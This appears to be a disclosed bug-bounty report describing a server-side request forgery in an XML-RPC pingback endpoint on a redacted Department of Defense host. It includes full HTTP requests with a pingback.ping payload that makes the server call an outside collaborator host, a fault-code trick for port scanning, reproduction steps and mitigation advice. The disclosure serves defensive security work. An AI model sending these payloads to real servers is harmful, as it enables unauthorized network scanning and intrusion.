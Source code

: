 # SSRF on ████████

## Report Details
- **Report ID**: 406387
- **URL**: https://hackerone.com/reports/406387
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-09-06T08:42:39.560Z
- **Disclosed**: 2019-10-08T18:45:21.526Z

## Reporter
- **Username**: twicedi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
The web application hosted on the "███████" domain is affected by a Server Side Request Forgery (SSRF) vulnerability that could allows an attacker to force the application to make requests to arbitrary targets.

**Description:**
The affected handler is the "/xmlrpc/pingback/".
This handler receives an xml payload containing an arbitrary URL. This parameter is then used by the application to send a request to the target.

The following request contains a valid target (for test purpose I have temporary generated the following domain: http://8hqzrzlvw4nabsf9bj3wgsl3vu1kp9.burpcollaborator.net/ with the Burp Collaborator tool):

```
POST /xmlrpc/pingback/ HTTP/1.1
Host: ███████
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: COOKIE_SUPPORT=true; GUEST_LANGUAGE_ID=en_US; ANONYMOUS_USER_ID=2922001
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 305

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value>http://8hqzrzlvw4nabsf9bj3wgsl3vu1kp9.burpcollaborator.net/</value>
</param>
<param>
<value>https://████/web/guest/home/</value>
</param>
</params>
</methodCall>
```

Response:

```
HTTP/1.1 200 OK
Content-Type: text/xml;charset=UTF-8
Server: Microsoft-IIS/8.5
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Content-Length: 291
Date: Thu, 06 Sep 2018 07:34:54 GMT
Connection: close
Set-Cookie: JSESSIONID=3D2874915F19DB1CE69EBAE34C6F894C; Path=/; Secure; HttpOnly

<?xml version="1.0" encoding="UTF-8"?><methodResponse><fault><value><struct><member><name>faultCode</name><value><i4>17</i4></value></member><member><name>faultString</name><value><string>Could not find target URI in source</string></value></member></struct></value></fault></methodResponse>
```

If the response contains a "faultCode" with a value of 17 (<value><int>17</int></value>) then it means the port is open. In the following screenshot it is showed the log of the dns request sent by the DoD server.

██████

Instead by using a non-existent domain as target (http://non.existent/):

```
POST /xmlrpc/pingback/ HTTP/1.1
Host: ████
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: COOKIE_SUPPORT=true; GUEST_LANGUAGE_ID=en_US; ANONYMOUS_USER_ID=2922001
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 266

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value>http://non.existent/</value>
</param>
<param>
<value>https://████████/web/guest/home/</value>
</param>
</params>
</methodCall>
```

The response contains a different "faultCode" with a different "faultString":

```
HTTP/1.1 200 OK
Content-Type: text/xml;charset=UTF-8
Server: Microsoft-IIS/8.5
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Content-Length: 282
Date: Thu, 06 Sep 2018 07:36:53 GMT
Connection: close
Set-Cookie: JSESSIONID=42FE4B60C1214FF84F72CFDD9E287A6C; Path=/; Secure; HttpOnly

<?xml version="1.0" encoding="UTF-8"?><methodResponse><fault><value><struct><member><name>faultCode</name><value><i4>16</i4></value></member><member><name>faultString</name><value><string>Error accessing source URI</string></value></member></struct></value></fault></methodResponse>
```

By exploiting this SSRF an attacker may be able to scan the local or external networks to which the vulnerable server is connected to. 


## Impact
The impact of exploiting a Server Side Request Forgery vulnerability mainly depends on how the web application uses the responses from the remote resource, such as:
- scan ports and IP addresses
- interact with some protocols such as Gopher
- discover the IP addresses of servers running behind a reverse proxy
- Denial of Services
- In some situation potentially remote code execution


## Step-by-step Reproduction Instructions

1. To exploit this issue an attacker has to craft a POST request, similar to the following, that contains the target URL:

```
POST /xmlrpc/pingback/ HTTP/1.1
Host: ████████
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: COOKIE_SUPPORT=true; GUEST_LANGUAGE_ID=en_US; ANONYMOUS_USER_ID=2922001
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 305

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value>http://8hqzrzlvw4nabsf9bj3wgsl3vu1kp9.burpcollaborator.net/</value>
</param>
<param>
<value>https://█████/web/guest/home/</value>
</param>
</params>
</methodCall>
```


## Suggested Mitigation/Remediation Actions
To prevent SSRF vulnerabilities in your web applications it is strongly advised to use a whitelist of allowed domains and protocols from where the web server can fetch remote resources.
If possible avoid using user input directly in functions that can make requests on behalf of the server. 

I'm available for further clarification,

Best,
Davide

## Impact

The impact of exploiting a Server Side Request Forgery vulnerability mainly depends on how the web application uses the responses from the remote resource, such as:
- scan ports and IP addresses
- interact with some protocols such as Gopher
- discover the IP addresses of servers running behind a reverse proxy
- Denial of Services
- In some situation potentially remote code execution

## Attachments
No attachments
